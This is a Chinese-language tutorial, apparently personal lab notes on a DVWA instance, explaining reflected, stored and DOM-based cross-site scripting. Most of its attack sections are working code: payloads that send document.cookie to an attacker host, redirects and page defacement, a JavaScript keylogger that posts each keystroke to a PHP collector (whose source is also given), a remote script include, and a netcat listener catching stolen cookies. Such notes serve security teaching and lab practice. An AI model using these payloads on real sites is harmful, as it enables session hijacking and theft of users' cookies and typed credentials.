 
# XSS漏洞


* 简介

* 反射型 XSS 漏洞

* 存储型 XSS 漏洞

* DOM型 XSS 漏洞


## 简介

1. 与 Java 原因无关
2. 命名完全出于市场原因
3. 使用最广的客户端脚本语言

* 利用方法
1. 通过 WEB 站点漏洞，向客户端交付恶意执行代码，实现对客户端的攻击目的
1. 注入客户端脚本代码
1. 盗取 cookie
1. 重定向


* 使用场景

1. 直接嵌入html：\<script> alert('XSS'); \</script>
1. 元素标签事件：\<body onload=alert('XSS')>
1. 图片标签：\<img src="javascript:alert('XSS');">
1. 其他标签：\<iframe>, \<div>, and \<link>
1. DOM对象，篡改页面内容

* 攻击参与方
1. 攻击者
1. 被攻击者
1. 漏洞站点
1. 第三方站点

* 漏洞形成的根源
1. 服务器对用户提交的数据过滤不严
1. 提交给服务器的脚本直接返回给其他客户端执行
1. 脚本咋客户端执行恶意操作


* XSS 漏洞类型
1. 存储型（持久性）
1. 反射性（非持久性）
1. DOM 型

* 漏洞判断方法
1. 提交数据之后，服务器原封不动的返回给客户端，就可以判断为存在 XSS 漏洞

## 反射型 XSS 漏洞
* 测试漏洞
1. Poc
``` 
- <script>alert(‘xss’)</script>
- <a href='' onclick=alert('xss')>type</a>
- <img src=http://1.1.1.1/a.ipg onerror=alert('xss')>
- <script>window.location='http://1.1.1.1'</script>
- <iframe SRC="http://1.1.1.1/victim" height = "0" width ="0"></iframe>
- <script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie;</script>
- <script>document.body.innerHTML="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>";</script>

```
2. 在浏览器输入数字 AAAAA
> http://10.10.10.132/dvwa/vulnerabilities/xss_r/  
> 原封不动的返回给了客户端，说明存在 XSS 漏洞

3. 测试漏洞，点击弹窗
``` 
<script>alert('xss')</script>
<a href='' onclick=alert('xss')>type</a>
<img src=http://10.10.10.111/a.ipg onerror=alert('xss')>,错误弹窗
<script>window.location='https://www.baidu.com'</script>
<iframe SRC="http://10.10.10.131/victim" height = "0" width ="0"></iframe>
```
4. 测试漏洞，提取 cookie 信息
``` 
<script>new Image().src="http://10.10.10.131/c.php?output="+document.cookie;</script>
```
5. 测试漏洞，篡改页面
``` 
<script>document.body.innerHTML="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>";</script>
```

* 常规攻击方法
1. 重定向到其他的地方（肉鸡）读取脚本文件



* 键盘记录器
1. 键盘记录器脚本：Keylogger.js
``` 
# Keylogger.js
document.onkeypress = function(evt) 
{
    evt = evt || window.event
    key = String.fromCharCode(evt.charCode)
    if (key) 
    {
        var http = new XMLHttpRequest();
        var param = encodeURI(key)
        http.open("POST","http://10.10.10.131/keylogger.php",true); # keylogger.php：接收键盘记录器信息的脚本
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}

```

2. 接收键盘记录器信息的脚本：keylogger.php
``` 
<?php
$key=$_POST['key'];
$logfile="keylog.txt";
$fp = fopen($logfile, "a");
fwrite($fp, $key);
fclose($fp);
?>

```

3. 接收的客户端的数据存放在文件：keylog.txt



4. 访问服务器，提交代码
``` 
<script src="http://10.10.10.131/Keylogger.js"></script>
```


## 存储型 XSS 漏洞
* 验证漏洞
1. 查看第一栏是否会过滤脚本
``` 
<script>alert('xss')</script>
```

* 漏洞利用

1. 创建 a.js
``` 
# kali IP
root@kali:/var/www/html# cat a.js 
var img = new Image();
img.src = "http://10.10.10.131:88/cookies.php?cookie="+document.cookie;

```

2. 进行攻击
``` 
输入 <script src=http://10.10.10.131/a.js></script>
发现无法成功输入，原因是浏览器进行了宽度限制，可以在本地修改

修改浏览器本地宽度

```




## DOM型 XSS 漏洞
* 漏洞利用
``` 
root@kali:~# nc -nvlp 88
反射型，输入 <script>var img=document.createElement("img");img.src="http://10.10.10.131:88/log?"+escape(document.cookie);</script>

```




